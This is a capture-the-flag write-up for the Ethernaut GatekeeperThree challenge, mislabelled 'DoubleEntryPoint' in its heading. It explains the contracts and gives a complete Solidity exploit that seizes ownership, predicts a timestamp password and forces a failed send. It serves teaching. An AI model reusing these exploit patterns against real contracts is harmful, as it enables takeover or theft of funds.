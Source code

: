 # Writeup for DoubleEntryPoint

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Cope with gates and become an entrant.

Things that might help:

- Recall return values of low-level functions.
- Be attentive with semantic.
- Refresh how storage works in Ethereum.

### Contract Explaination

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

Click [here](./src/contracts/GatekeeperThree.sol) to view the contract source code.

<details>
<summary>Click to view the contract explanation</summary>

First i will explain the `SimpleTrick` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}
```

The `SimpleTrick` contract has three state variables named `target`, `trick`, and `password`. The `target` is of type `GatekeeperThree` (address), `trick` is of type **address**, and `password` is of type **uint256** and is initialized to `block.timestamp`.

```solidity
constructor(address payable _target) {
    target = GatekeeperThree(_target);
}

```

The `constructor` takes an address of payable type as input and initializes the `target` with a `GatekeeperThree` instance of the address passed.

```solidity
function checkPassword(uint256 _password) public returns (bool) {
    if (_password == password) {
        return true;
    }
    password = block.timestamp;
    return false;
}

```

The function `checkPassword()` takes an argument of type **uint256** (\_password) as input and compares the \_password passed with the `password` stored in the contract. If both match, it will return `true`. If not, it will set the password to `block.timestamp` and return `false`.

```solidity

function trickInit() public {
    trick = address(this);
}
```

The `trickInit()` function sets the `trick` variable to `address(this)` (the contract address of the `SimpleTrick` contract).

```solidity
function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
        target.getAllowance(password);
    }
}
```

The function `trickyTrick()` is a public function. It checks if the `msg.sender` (caller) is the `SimpleTrick` contract and if `trick` is not the `SimpleTrick` contract address. If both conditions are satisfied, it will call the `getAllowance()` function in the `GatekeeperThree` contract by passing the `password` as an argument.

Now i will explain the `GatekeeperThree` contract.

```solidity
contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

The contract has 4 state variables named owner, entrant, allowEntrance, trick.

```solidity
function construct0r() public {
        owner = msg.sender;
    }
```

The `construct0r()` function sets the `owner` to `msg.sender` (the caller or deployer of the contract).

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

The modifier `gateOne` will check if `msg.sender` (caller) is the `owner`. If the caller is not the `owner`, it will revert. It also checks whether `tx.origin` (transaction initiator EOA) is the `owner` or not. If `tx.origin` is the `owner`, it will revert.

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

The modifier gateTwo will check if the allowEntrance is true or not. If it is not true then it will revert.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

The modifier `gateThree` will check if the balance of the `GatekeeperThree` contract is greater than 0.001 ether and if the return value of the `send()` function is false. If the `send()` function returns true or the contract balance is less than 0.001 ether, the function implementing this modifier will not execute.

One important thing to observe here is that even if the condition fails, the function call won't revert because the modifier is not reverting. So, if the condition in the modifier fails, it won't revert the function, but it also won't execute the function because `_` is inside the `if` condition. The function will be executed only if the the modifier execution reaches the `_;` .

```solidity

function getAllowance(uint256 _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
}
```

The `getAllowance()` function takes an argument of type **uint256** (\_password) as input and calls the `checkPassword() `function in the `SimpleTrick` contract. If the `checkPassword()` function returns true, then it sets `allowEntrance` to true.

```solidity
function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
}

```

The `createTrick()` function creates a new instance of the `SimpleTrick` contract and assigns the instance to the variable `trick`. Then it calls the `trickInit()` function in the `SimpleTrick` contract.

```solidity
function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
}
```

The function `enter()` is a public function that executes the modifiers `gateOne`, `gateTwo`, and `gateThree`. If all the modifiers pass, then it sets the `entrant` to `tx.origin` (initiator of the transaction).

```solidity
receive() external payable {}
```

The contract has a `receive()` function. When someone interacts with this contract by sending some data that doesn't match any function selector, the `receive()` function will be called. It will also be called if someone sends ether to the contract without calling any function.

</details>

### Exploit

Our goal is to become the entrant. The only way we can become the entrant is by calling the enter() function. In order to become the entrant we need to pass the three modifiers. So let's try to pass each modifier one by one. We was given the instance of GatekeeperThree contract.

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}

```

This modifier can be passed by setting up our Exploit contract address as the owner and then interacting with the `enter()` function from the Exploit contract. If we do that, `msg.sender` will be our Exploit contract address and `owner` will also be our Exploit contract address. Then `tx.origin` will be our wallet address since we are calling the function in our Exploit contract and that function is calling the `enter()` function. So the `tx.origin` (EOA) won't be equal to the Exploit contract address.

We set up our `Exploit` contract address as owner by calling the `construct0r()` function in `GatekeeperThree` contract.

Now lets pass the Second Gate.

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

The modifier `gateTwo` can be passed by setting the `allowEntrance` variable to `true`. The `allowEntrance` value depends on the `getAllowance()` function. If we pass the password to `getAllowance()`, it calls the `checkPassword()` function in the `SimpleTrick` contract and checks if the password is correct. If it is correct, it will return `true`.

If we see the `checkPassword()` function in the `SimpleTrick` contract, it compares the `_password` passed as an argument with the `password` stored in the state variable. If both match, it will return `true`. So, in order to know the correct password, we need to check the value at slot 2 in the `SimpleTrick` contract because the password is stored in slot 2. In order to check the value at slot 2, we need the contract address of the SimpleTrick contract. They didn't give the address of the SimpleTrick contract. They gave us the instance of the GatekeeperThree contract.

In the GatekeeperThree contract, the 4th state variable is the address of the SimpleTrick contract. From that, we can know the address of the SimpleTrick contract. So now it's time to open the console.

```javascript
await contract.trick();
```

It will return `0x0000000000000000000000000000000000000000`, which means the SimpleTrick contract is not deployed. However, if we look at the `createTrick()` function, it will create an instance of the SimpleTrick contract and assign it to trick. We are the ones calling the `createTrick()` function and making the instance of the SimpleTrick contract. Instead of calling the `createTrick()` function in the console, if we call it from our Exploit contract, it will be easier for us to get the password because the password is set to `block.timestamp` in SimpleTrick contract. Since we are calling `createTrick()` from our Exploit contract, we can call it from a function in the Exploit contract and within that function, we can call the `getAllowance()` function and directly pass `block.timestamp` to it, which will allow us to pass the second gate successfully.

Till here how Exploit contract will look like the following.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree{
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}

contract ExploitGateKeeperThree{
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr){
        gateKeeperThree=IGateKeeperThree(_addr);
    }

    function Exploit()public payable{
        gateKeeperThree.construct0r();
        gateKeeperThree.createTrick();
        gateKeeperThree.getAllowance(block.timestamp);
        gateKeeperThree.enter();

    }
}
```

Now we also need to pass modifier three. So we need make some more calls in the Exploit() function before the enter() function.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

The modifier `gateThree()` will check if the contract has a balance greater than 0.001 ether. So, we need to send the `GatekeeperThree` contract some ether, more than 0.001 ether. Another condition it checks is when it tries to send some ether to the `owner` (Exploit contract), it expects the transaction to return false, which means the transaction should fail. If our Exploit contract doesn't have the `receive()` function, then this condition will be satisfied.

So now, in our `Exploit()` function, before calling `enter()`, we need to send ether greater than `0.001 ether`to the `GatekeeperThree` contract. Below is the final `Exploit` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree{
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}


contract ExploitGateKeeperThree{
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr){
        gateKeeperThree=IGateKeeperThree(_addr);

    }

    function Exploit()public payable{
        gateKeeperThree.construct0r();
        gateKeeperThree.createTrick();
        gateKeeperThree.getAllowance(block.timestamp);
        address(gateKeeperThree).call{value:1000000000000001}("");
        gateKeeperThree.enter();
    }
}

```

Once you deploy this Exploit contract and call Exploit() function the challenge will be solved. Hope you enjoyed this challenge.

### Key takeaways

When someone is sending ether to a contract and if the contract doesn't have a receive() function, the transaction will fail.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
